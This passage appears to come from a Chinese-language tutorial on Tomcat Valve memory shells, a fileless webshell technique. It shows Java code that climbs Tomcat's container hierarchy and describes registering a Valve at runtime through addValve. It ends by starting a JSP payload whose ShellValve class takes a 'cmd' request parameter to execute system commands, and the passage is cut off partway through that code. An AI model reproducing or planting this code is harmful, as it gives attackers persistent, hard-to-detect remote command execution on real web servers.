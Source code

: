 ```
    }
}
```

![QQ_1726936942446](images/6.png)

也可以用到其他结果组件

```java
StandardContext standardContext= (StandardContext)req.getContext();
// 获取StandardHost
StandardHost standardHost = (StandardHost) standardContext.getParent();
// 获取StandardEngine
StandardEngine standardEngine = (StandardEngine) standardHost.getParent();
```

这几个组件都继承自ContainerBase

![QQ_1726937003832](images/7.png)



# 写在最后

其实valve内存马也是因为它是Tomcat加载的一个组件，每一个Pipline都有对应的StandarPipline，里面存在addValve方法，可以动态注册Valve到运行的程序中

留一个JSP和反序列化的Payload

```jsp
<html>
<head>
    <title>JSP动态注入Valve</title>
</head>
<body>
<%!
    public class ShellValve extends ValveBase {
        @Override
        public void invoke(Request request, Response response) throws IOException, ServletException {
            response.setContentType("text/plain");
            response.setCharacterEncoding("utf-8");
            String cmd = request.getParameter("cmd");
            try {
                // 执行系统命令
```